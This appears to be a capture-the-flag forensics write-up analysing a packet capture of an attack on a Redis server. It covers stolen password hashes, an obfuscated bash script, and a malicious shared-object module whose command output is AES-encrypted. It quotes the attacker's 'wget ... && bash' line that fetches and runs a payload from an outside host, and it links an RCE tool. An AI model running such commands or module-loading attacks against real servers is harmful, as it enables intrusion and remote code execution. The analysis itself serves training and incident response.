 # RedTrails
Difficulty: Medium

Type: Challenge

## Description
*Our SOC team detected a suspicious activity on one of our redis instance. Despite the fact it was password protected it seems that the attacker still obtained access to it. We need to put in place a remediation strategy as soon as possible, to do that it's necessary to gather more informations about the attack used. NOTE: flag is composed by three parts.*

## Solution
In this challenge we have a ``.pcap`` file which includes a capture of redis commands, the RESP protocol.

![pcap file](./images/wireshark.png)

In the RESP protocol there are requests and responses. The request includes the command to the running redis instance and the response is the result that the redis returns. You can read more about RESP from official the documentation https://redis.io/docs/reference/protocol-spec/

If we follow the first TCP stream we can see what commands the attacker ran.

![docs](./images/docs.png)
After authenticating successfully the attacker sends the DOCS command which return a huge amount of information about the documentation. However, after that the attacker prints all the values stored in the database (username and password hashes).

![get keys](./images/getkeys.png)

Scrolling more we see instead of a password hash, a part of the flag

![flag1](./images/flag1.png)

Continuing the enumeration, we observe a HTTP stream with only one GET request and a response that has an obfuscated bash script. Interesting!
![http](./images/http.png)

After deobfuscating 2 times and decoding the base64 content the final script looks like this
![flag2](./images/flag2.png)
..and at the end of the rsa key we get the second part of the flag!

Now back to wireshark. The next redis commands are interesting.
The attacker seems to load a module named ``x10SPFHN.so`` and after that he executes some system commands such as rm, uname and wget. However, if we notice the response/result of these commands we see hex data instead of the actual result. Keep that in mind.
![uname](./images/uname.png)
For now let's try to find more about the .so file. The ``.so`` files are shared libraries that contain executable code. So, we can extract the packet bytes and reconstruct the binary for reverse engineering. Right click on the packet frame -> copy as hex stream.

Then, with the help of a happy tool called ``xxd`` we can revert the hex stream to a binary

``xxd -r -ps hexDump.txt sofile.so``

and load the .so file to Ghidra.

Thankfully there are only 4 functions.

![functions](./images/functions.png)

The most interesting one seem the ``DoCommand`` and here is why.

![ghidra](./images/ghidra.png)

There are two hardcoded strings which later they are passed to an encryption function as key and iv. The encryption is AES-256 CBC mode. So, this module encrypts a command (?).

This makes sense since after the attacker loads the module, the result of the system commands are all in hex format, well.. more like encrypted. But we have the key and iv so we can easily decrypt those weird results.

This is the result of the ``system.exec uname -a``

![uname dec](./images/unamed.png)

Even more interesting is the output of the ``system.exec wget --no-check-certificate -O gezsdSC8i3 'https://files.pypi-install.com/packages/gezsdSC8i3' && bash gezsdSC8i3``

![final flag](./images/final.png)

Which has the FLAG_PART we were looking for!

NOTE: This capture seems to be the result of a python exploit script that attempts RCE on a redis instance
https://github.com/Ridter/redis-rce?tab=readme-ov-file
